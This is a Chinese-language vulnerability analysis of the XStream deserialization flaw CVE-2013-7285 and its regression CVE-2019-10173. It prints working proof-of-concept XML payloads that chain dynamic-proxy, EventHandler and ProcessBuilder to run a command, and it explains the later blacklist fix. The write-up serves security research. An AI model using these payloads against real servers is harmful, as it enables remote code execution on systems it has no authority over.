




# 0x00 漏洞影响版本

```java
/**
 * CVE-2013-7285
 *
 * affected version: <= 1.4.6, 1.4.10(new cve record: CVE-2019-10173)
 */
```

# 0x01 漏洞环境

本地JavaSE maven工程

# 0x02 漏洞分析

PoC如下：

```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

```java
XStream xstream = new XStream();
Contact contact = (Contact)xstream.fromXML(xml);
```

PoC里用到了`<dynamic-proxy>`，这个代表说`XStream`在对其反序列化的时候会使用到动态代理转换器-`DynamicProxyConverter`，官方文档中关于其解释如下：

。

- 什么是`Converter`?
>Converter是XStream的核心组成，它提供了一种用于特定类型的对象与XML之间进行转换的策略。
>XStream提供了通用类型的转换器，如基本类型、字符串、文件、集合、数组和日期类型等。详细的转换器类型请查阅官方文档。(参考[3])。

而`<dynamic-proxy>`则是动态代理技术在XStream环境下xml内容的表现形式。关于动态代理，我在之前的文章中讲到过(参考[4])，这里不再细说。

如官方文档对`DynamicProxyConverter`的描述，负责处理方法调用的`InvocationHandler`和动态代理所实现的接口都将会被反序列化。

上面的PoC中，使用了`java.beans.EventHandler`类作为具体的`InvocationHandler`。

来看一个简单的场景: 服务器想要接收一个指定接口的序列化实例。服务端代码如下：

```java
@Controller
@RequestMapping("/contacts")
public class ContactController {
    @Autowired
    private ContactRepository contactRepository;

    @RequestMapping( method = RequestMethod.POST )
    @ResponseStatus( HttpStatus.CREATED )
    public final String create( @RequestBody Contact contact ){
        log("Creating new contact: " + contact.getFirstName());
        contactRepository.save(contact);
        return "OK";
    }
 }
```

可以看出服务器希望接收到的请求内容如下：
```xml
<contact>
  <id>1</id>
  <firstName>alvaro</firstName>
  <lastName>munoz</lastName>
  <email>alvaro@pwntester.com</email>
</contact>
```

如果想攻击服务端，我们可以利用动态代理技术去拦截接口的任意方法调用，并在其中注入恶意代码：
- (1) 首先要确定动态代理要实现的接口，这个例子是：`com.company.model.Contact`;
- (2) 创建`com.company.model.Contact`的代理类。
- (3) 拦截该接口的任何方法调用。
- (4) 使用恶意的payload替换原本的方法调用。

因此，该例子的PoC实现如下：

```xml
<dynamic-proxy>
<interface>com.company.model.Contact</interface>
<handler class="java.beans.EventHandler">
    <target class="java.lang.ProcessBuilder">
      <command>
        <string>open</string>
        <string>-a</string>
        <string>calculator</string>
      </command>
    </target>
    <action>start</action>
</handler>
</dynamic-proxy>
```

其中，`java.beans.EventHandler`为动态代理的`InvocationHandler`处理类，该处理类将使用`java.lang.ProcessBuilder#start()`方法去替换原始的方法调用。
这个例子中，一旦服务器代码到达代理接口上的方法调用，就像代码中的下面这行：

```java
log("Creating new contact: " + contact.getFirstName());
```

方法调用将被拦截，并用我们的payload进行替换，结果是服务器上打开了一个计算器。

但是这跟前面一开始给出的PoC不太一样呀。是的，这里的PoC并不通用，而且仅针对这个例子有效。
因为除非是白盒审计，否则想知道要实现服务端的哪个类，是非常困难的。

这个问题的解决方案是序列化一个包含其他对象的对象，为了实例化这个对象，必须调用一个接口方法。在这里，我们可以使用`InvocationHandler`的实现类`EventHandler`注入恶意代码。下面的想法是由`Jörg Schaible (XStream developer)`在向XStream团队披露时提出的。序列化`java.util.TreeSet`的对象，该对象又包含`java.lang.Comparable`这样的对象，当`Set`在服务器端实例化时，就会调用`Comparable`的`compareTo()`方法来对`Set`集合的元素进行进行排序。现在我们需要做的就是往`TreeSet`的元素中添加一个动态代理，拦截`Comparable`接口的任何方法调用，并用我们的payload替换它。代码如下：

```java
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("open","-a", "calculator"), "start"));
String payload = xstream.toXML(set);
System.out.println(payload);
```

由于这里`XStream#toXML()`会抛出异常`java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.lang.Integer`。所以这里我们得手动编写xml的PoC，如下，这个也就是开头给出PoC。


```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```




# 0x03 漏洞修复

因为`EventHandler`是由`ReflectionConverter`这个转换器来处理的。在`1.4.7-1.4.9`版本中，增加了对`java.beans.EventHandler`的限制。


然而在`1.4.10`版本中，修复代码稍有变化。该版本中并没有在`ReflectionConverter`中对`java.beans.EventHandler`进行限制。而是在`XStream.java`中定义了一个`InternalBlackList`的`Converter`，它的优先级为`LOW`，而`ReflectionConverter`的优先级为`VERY_LOW`，所以在进入`ReflectionConverter`之前，`java.beans.EventHandler`就会被`InternalBlackList`给拦截掉。如下图：






然而有意思的是，由于代码存在bug，导致这个`InternalBlackList`在该版本没有起到作用，导致`CVE-2013-7285`这个漏洞的PoC又能在`1.4.10`版本上执行成功。还有了个新的CVE编号：`CVE-2019-10173`。

用`1.4.10`版本进行调试，如下图，可以看到，在进入`InternalBlackList#canConvert()`时，参数`type`为`java.beans.EventHandler`，由于此时`insecureWarning`为`false`，从而`InternalBlackList#canConvert()`返回`false`，结果就是`InternalBlackList`没起到黑名单拦截作用。



`1.4.11`版本修复了bug，让`InternalBlackList`起到了黑名单拦截作用。调试如下图：


调用`InternalBlackList#unmarshal()`方法，直接抛出异常`ConversionException`，提示`Security alert. Unmarshalling rejected`。


# Reference
[1] http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
[2] https://x-stream.github.io/security.html
[3] https://x-stream.github.io/converters.html
[4] https://medium.com/@m01e/ysoserial-groovy1%E6%A8%A1%E5%9D%97%E5%88%86%E6%9E%90-2d53f197efc4
